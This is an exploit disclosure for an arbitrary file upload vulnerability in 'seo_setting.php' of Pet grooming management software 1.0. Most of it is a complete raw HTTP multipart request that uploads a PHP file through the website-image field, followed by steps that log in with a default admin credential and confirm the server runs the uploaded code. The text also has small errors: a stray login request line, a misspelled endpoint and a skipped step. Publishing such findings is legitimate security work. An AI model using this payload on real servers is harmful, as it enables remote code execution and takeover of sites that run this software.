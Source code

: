 

# Pet grooming management software  - 'seo_setting.php' Arbitrary File Upload

#### Exploit Title: Pet grooming management software - Arbitrary File Upload

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The pet grooming management software has a vulnerability in uploading arbitrary files. In the 'seo_setting.php'  file, due to insufficient filtering of file suffixes, attackers can exploit this vulnerability to gain server privileges by uploading malicious files.

#### Payload used:

```POST /login.php HTTP/1.1
POST /admin/seo_setting.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Origin: http://192.168.67.28:8021
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynrYRiaBMmUAHonyv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/admin/manage_website.php
Cookie: PHPSESSID=nn7i1gq9g3c5789ch9hgs6nogg
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 3656

------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="deduct"

1
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="title"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="currency_symbol"

₹
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_website_image"

Pets_Logo.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="website_image"; filename="111.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_favicon"

favicon_pet.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="favicon"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_qr"

dumm_qr(1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="qr"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="footer"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="term"

<h4>1. <strong>Appointments &amp; Timings</strong></h4><p>Clients must arrive on time for scheduled appointments.</p><p>A delay of more than 15 minutes may result in rescheduling.</p><p>Walk-ins are accepted based on availability.</p><h4>2<strong>. Health &amp; Vaccinations</strong></h4><p>Pets must be up to date with vaccinations (especially Rabies).</p><p>We reserve the right to refuse service if a pet shows signs of illness, infection, or aggressive behavior.</p><p>The client must inform us of any medical conditions, allergies, or behavioral issues.</p><h4>3. <strong>Grooming Safety</strong></h4><p>We use safe, pet-friendly grooming products and tools.</p><p>In case of extreme matting, hair may need to be shaved to avoid injury.</p><p>We are not liable for any pre-existing conditions or issues arising from matting, skin problems, or aggressive behavior.</p><h4>4. <strong>Emergency Care</strong></h4><p>In the event of an injury or health concern during grooming, we will attempt to contact the owner immediately.</p><p>If needed, the pet may be taken to the nearest veterinary clinic at the owner's expense.</p><h4>5. <strong>Cancellations &amp; No-Shows</strong></h4><p>Please provide at least 24 hours’ notice for cancellations.</p><p>No-shows or last-minute cancellations may incur a fee.</p><h4>6. <strong>Photographs</strong></h4><p>We may take photos of pets after grooming for promotional use on our website or social media unless the client requests otherwise.</p><h4>7. <strong>Payment Terms</strong></h4><p>Full payment is required upon completion of grooming.</p><p>Prices may vary depending on breed, size, coat condition, and service duration.</p>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_sign"

images (1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="sign"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="btn_web"


------WebKitFormBoundarynrYRiaBMmUAHonyv--

```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、Request the /admin/see_stingting.php interface to modify the website_image to the PHP malicious file we are about to upload.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpayloadseo.png)

4、After sending the request packet, the file can be accessed on the page, and the PHP file has been parsed, displaying information related to PHPINfo.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadlocation.png)

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpageseo.png)

5、Source code related to vulnerabilities.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/code-seosetting.png)
